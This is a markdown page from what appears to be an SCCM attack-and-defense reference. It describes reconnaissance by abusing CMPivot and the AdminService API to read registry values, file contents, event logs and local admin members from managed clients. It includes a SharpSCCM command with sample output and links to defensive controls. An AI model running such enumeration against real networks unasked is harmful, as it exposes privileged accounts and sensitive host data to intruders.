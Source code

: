 # RECON-4

## Description
Query client devices via CMPivot

## MITRE ATT&CK TTPs
- [TA0009](https://attack.mitre.org/tactics/TA0009/) - Collection
- [TA0010](https://attack.mitre.org/tactics/TA0010/) - Exfiltration
- [TA0007](https://attack.mitre.org/tactics/TA0007/) - Discovery

## Requirements
- Run CMPivot permission on the Collection scope
- Read permission on Collections
- Read permission on Inventory Reports
- Read permission on the SMS Scripts object (n/a after version 2107)
- The default scope (n/a after version 2107)
- Target clients require a minimum of PowerShell version 4
- Additional details: https://learn.microsoft.com/en-us/mem/configmgr/core/servers/manage/cmpivot#permissions

## Summary
CMPivot is part of the ConfigMgr framwework. It allows for real-time collection of data from client devices.

The data collected is based on prebuilt queries, called entities, that are available by default as part of the framework. Queries are made using the Kusto Query Language (KQL), which allows for different filters to be applied to the query results.

These queries allow CMPivot users to read data from remote client devices, including data that could be useful to an attacker, such as Windows event logs, registry values, file contents, and local Administrators group members.

The most common usage of CMPivot is through the Configuration Manager console, where we can:
1. Select a target to run CMPivot against (either a single resource or a collection)
2. Select a query from the left pane of the CMPivot window or enter one manually in the query pane, including any desired filters
3. Run the query on the target client or collection
4. Read the data returned by the target in the results pane

In the background, the data obtained from these queries is gathered either through WMI or by running a  PowerShell script on the client(s) as SYSTEM.
   
Additionally ConfigMgr exposes the AdminService REST API, which in turn exposes methods to perform CMPivot queries:

`https://{managementPoint}/AdminService/v1.0/Device({deviceId})/AdminService.RunCMPivot`

AdminService also allows for retrieving the results of our queries:

`https://{managementPoint}/AdminService/v1.0/Collections('{collectionName}')/AdminService.RunCMPivot`

## Impact
With the required permissions, an attacker can leverage CMPivot and/or the AdminService to query data from client hosts within a ConfigMgr site.

These operations allow for enumeration of:

  - Active sessions
  - Registry keys and values
  - Local Administrators group
  - Arbitrary file contents
  - Windows event logs

And a lot more. There are more than 130 queries available.

## Defensive IDs
- [PREVENT-9: Enforce MFA for SMS provider calls](../../../defense-techniques/PREVENT/PREVENT-9/prevent-9_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Examples

Using SharpSCCM to enumerate the local Administrators group from the ConfigMgr client with ID 16777226:
```
.\SharpSCCM.exe invoke admin-service -r 16777226 -q "Administrators" -sms site-sms -d 10

[+] Sending query to AdminService
[+] URL: "https://site-sms/AdminService/v1.0/Device(16777226)/AdminService.RunCMPivot"
[+] OperationId found: 16777463
[+] Attempt 1 of 5: Checking for query operation to complete
[+] URL: "https://site-sms/AdminService/v1.0/Device(16777226)/AdminService.CMPivotResult(OperationId=16777463)"
[+] 10 seconds until next attempt
[+] Attempt 2 of 5: Checking for query operation to complete
[+] URL: "https://site-sms/AdminService/v1.0/Device(16777226)/AdminService.CMPivotResult(OperationId=16777463)"
[+] 10 seconds until next attempt
[+] Successfully retrieved results from AdminService
Device: SITE-SERVER
ObjectClass: User
Name: MAYYHEM\CAS$
PrincipalSource: ActiveDirectory
----------------------------------------
Device: SITE-SERVER
ObjectClass: Group
Name: MAYYHEM\Domain Admins
PrincipalSource: ActiveDirectory
----------------------------------------
Device: SITE-SERVER
ObjectClass: User
Name: MAYYHEM\sccmadmin
PrincipalSource: ActiveDirectory
----------------------------------------
Device: SITE-SERVER
ObjectClass: User
Name: SITE-SERVER\Administrator
PrincipalSource: Local
----------------------------------------
[+] Completed execution in 00:00:21.1354974
```

## References
- Microsoft, [CMPivot for real-time data in Configuration Manager](https://learn.microsoft.com/en-us/mem/configmgr/core/servers/manage/cmpivot)
- Benoit Lecours, [SCCM CMPivot Query Examples](https://www.systemcenterdudes.com/sccm-cmpivot-query/)
- Microsoft, [What is the administration service in ConfigMgr](https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview)
- Diego Lomellini, [Lateral Movement without Lateral Movement](https://posts.specterops.io/lateral-movement-without-lateral-movement-brought-to-you-by-configmgr-9b79b04634c7)